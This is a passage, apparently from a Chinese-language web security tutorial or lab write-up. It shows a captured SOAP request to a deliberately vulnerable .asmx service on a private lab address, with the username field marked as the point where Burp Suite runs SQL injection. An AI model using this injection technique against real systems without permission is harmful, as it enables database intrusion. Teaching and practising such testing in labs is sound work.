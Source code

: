 [![](assets/1705886707-4bd7f3297d1360612a0a8f4d417625e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120330-df452a2a-b748-1.png)  
随后复制 Getuser 的报文并使用 burpsuite 跑 SQL 注入

```plain
POST /Vulnerable.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=BD6679E38730DA96AAD4121C
Upgrade-Insecure-Requests: 1
SOAPAction: http://tempuri.org/GetUser
Content-Type: text/xml;charset=UTF-8
Host: 192.168.204.161
Content-Length: 302

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetUser>
         <!--type: string-->
         <tem:username>geroet*</tem:username>
      </tem:GetUser>
   </soapenv:Body>
</soapenv:Envelope>
```

[![](assets/1705886707-04e9edd4a536199b5532ec556d5e8ec4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120423-fedd8c88-b748-1.png)

